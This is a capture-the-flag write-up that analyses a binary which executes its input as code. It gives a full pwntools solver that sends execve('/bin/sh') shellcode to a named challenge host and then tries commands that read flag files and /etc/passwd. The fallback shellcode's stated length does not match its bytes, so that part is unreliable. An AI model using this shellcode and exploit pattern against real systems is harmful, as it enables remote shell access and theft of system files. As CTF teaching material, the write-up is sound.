

# tinggal run
### Description: asli serius tinggal run aja

We are given a ```chall``` binary file.

I ran objdump -d on it to get some dissasemblies to then analyze and craft a solver to get a flag.

Here are some glaring vulnerabilities i found analyzing it:

```
4012b2: lea    -0x100(%rbp),%rax    ; Load address of 256-byte stack. buffer
4012b9: mov    $0x100,%edx          ; Read up to 256 bytes.
4012c6: call   4010c0 <read@plt>    ; read(0, buffer, 256) - read user input.
4012cb: lea    -0x100(%rbp),%rdx    ; Load buffer address again.
4012d7: call   *%rdx               ; Execute buffer contents as code.
```

The vulnerability is a direct shellcode injection in the main function.

So the program allocates a 256-byte buffer on the stack, then it reads user input directly into this buffer via read(), finally, it directly executes the buffer contents with call *%rdx.

Essentially asking the user "give me some code to run".

To solve, we can use x86-64 assembly to spawn a shell.

When the shell spawns, we can look for the flag in common locations like flag.txt, /flag, etc.

Here is a solver i drafted with the help of Claude:
```
#!/usr/bin/env python3
from pwn import *
import time

# Target connection
host = "intersec.hcs-team.com"
port = 10457

try:
    # Connect to the remote service
    p = remote(host, port)
    
    # Wait for the banner and prompt
    print("Receiving banner...")
    banner = p.recvuntil(b"Enter some text:")
    print(banner.decode('utf-8', errors='ignore'))
    
    # x86-64 shellcode for execve("/bin/sh", NULL, NULL)
    shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
    
    print(f"Sending shellcode ({len(shellcode)} bytes)...")
    p.send(shellcode)
    
    # Give the shellcode time to execute
    time.sleep(0.5)
    
    print("Attempting to get flag...")
    
    # Try common flag locations
    flag_commands = [
        b"cat flag.txt\n",
        b"cat flag\n", 
        b"cat /flag\n",
        b"cat /home/*/flag*\n",
        b"ls -la\n",
        b"find / -name '*flag*' 2>/dev/null\n",
        b"cat /etc/passwd\n"
    ]
    
    for cmd in flag_commands:
        try:
            print(f"Trying: {cmd.decode().strip()}")
            p.send(cmd)
            
            # Try to receive output with timeout
            try:
                output = p.recv(timeout=2)
                if output:
                    result = output.decode('utf-8', errors='ignore')
                    print(f"Output: {result}")
                    
                    # Check if this looks like a flag
                    if any(flag_indicator in result.lower() for flag_indicator in ['flag{', 'ctf{', 'intersec{', 'hcs{']):
                        print(f"\n*** POTENTIAL FLAG FOUND: ***")
                        print(result)
                        print("*" * 50)
                        
            except EOFError:
                print("Connection closed by remote")
                break
                
        except Exception as e:
            print(f"Error with command {cmd}: {e}")
            continue
    
    # Try interactive mode
    print("\nTrying interactive shell...")
    try:
        p.interactive(timeout=10)
    except:
        pass
        
except Exception as e:
    print(f"Connection error: {e}")
    print("Trying alternative shellcode...")
    
    # Try with alternative shellcode if first fails
    try:
        p = remote(host, port)
        p.recvuntil(b"Enter some text:")
        
        # Alternative shellcode (22 bytes)
        alt_shellcode = b"\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05"
        
        p.send(alt_shellcode)
        time.sleep(1)
        p.send(b"cat flag*\n")
        
        result = p.recv(timeout=3)
        print(f"Alternative attempt result: {result.decode('utf-8', errors='ignore')}")
        
    except:
        print("Both attempts failed")

finally:
    try:
        p.close()
    except:
        pass
```

Running it gives us the flag:



Flag: ```HCS{sh3llc0de_us1ng_sh3llcraft_4nd_sh3llstorm_dc323f78-f19d-409d-92a2-34965646dd98}```


